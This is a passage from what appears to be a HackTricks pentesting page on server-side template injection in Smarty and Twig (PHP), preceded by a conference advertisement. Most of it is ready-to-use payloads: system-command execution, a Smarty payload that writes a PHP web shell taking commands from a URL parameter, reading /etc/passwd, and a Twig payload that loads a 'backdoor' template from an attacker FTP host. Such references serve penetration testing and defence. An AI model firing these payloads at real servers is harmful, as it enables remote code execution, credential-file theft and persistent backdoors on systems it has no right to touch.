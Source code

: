 ![](https://book.hacktricks.xyz/~gitbook/image?url=https%3A%2F%2Ffiles.gitbook.com%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-L_2uGJGU7AVNRcqRvEi%252Fuploads%252FelPCTwoecVdnsfjxCZtN%252Fimage.png%3Falt%3Dmedia%26token%3D9ee4ff3e-92dc-471c-abfe-1c25e446a6ed&width=768&dpr=4&quality=100&sign=9c8fe74f&sv=1)

â€‹â€‹[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

[![Logo](https://www.rootedcon.com/img/favicons/apple-touch-icon-180x180.png)RootedCONRootedCON](https://www.rootedcon.com/)

## 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#undefined)

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#smarty-php)

Smarty (PHP)



```
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```

**More information**

- In Smarty section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
 
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php)

Twig (PHP)

- `{{7*7}} = 49`
 
- `${7*7} = ${7*7}`
 
- `{{7*'7'}} = 49`
 
- `{{1/0}} = Error`
 
- `{{foobar}} Nothing`
 



```
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
```
